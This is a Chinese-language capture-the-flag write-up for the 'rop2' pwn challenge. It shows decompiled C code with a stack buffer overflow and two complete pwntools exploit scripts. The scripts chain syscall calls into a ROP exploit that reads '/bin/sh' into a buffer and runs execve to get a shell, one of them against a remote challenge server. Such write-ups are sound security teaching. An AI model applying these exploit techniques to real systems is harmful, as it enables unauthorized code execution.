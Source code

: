 NX 有開 。

main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[42]; // [esp+5h] [ebp-33h]

  alarm(0x1Eu);
  strcpy(v4, "Can you solve this?\nGive me your ropchain:");
  syscall(4, 1, v4, 42);
  overflow();
  return 0;
}
```

overflow
```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  syscall(3, 0, &v1, 1024);
  return syscall(4, 1, &v1, 1024);
}
```

overflow 可以算出 offset 16 可以蓋到 ret ， 於是打算讓他跳回 syscall 執行 sys_execve('/bin/sh')
但 ROPgedget 找不出 '/bin/sh' 於是打算自己構造

想法:
第一次進去 overflow 把 ret 蓋掉，換成 syscall(3, 0, buf, 7) --> sys_read(0, buf, 7) ([參考 syscall table](https://syscalls.kernelgrok.com/))

```python
#payload = padding + ret + syscall + arg1 + arg2 + arg3 + arg4
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
```

ret 位置給 overflow 讓他可以達成第二次輸入 (原本嘗試直接再跳一次syscall，但失敗了。好像因為 calling convention 的問題，疑問中)
第二次則從 buf 拿自己輸入的 /bin/sh 出來用
```python
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
```

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = process('./rop2')
syscall = p32(elf.plt['syscall'])
ret_addr = p32(elf.symbols['overflow'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)
#paylaod = padding + func + ret + args
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
p.sendline(payload)
p.interactive()
```

以下提供一個ROP利用方法 丟參數順序 ebp edi esi ebx

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = remote('hackme.inndy.tw', 7703)
syscall = p32(elf.plt['syscall'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)

#paylaod = padding + func + ret + args
payload = offset + syscall + p32(0x08048578) + sys_read
payload += syscall +  p32(0xdeadbeaf) + sys_execve
p.sendlineafter("your ropchain:", payload)
p.sendline("/bin/sh")
p.interactive()
```
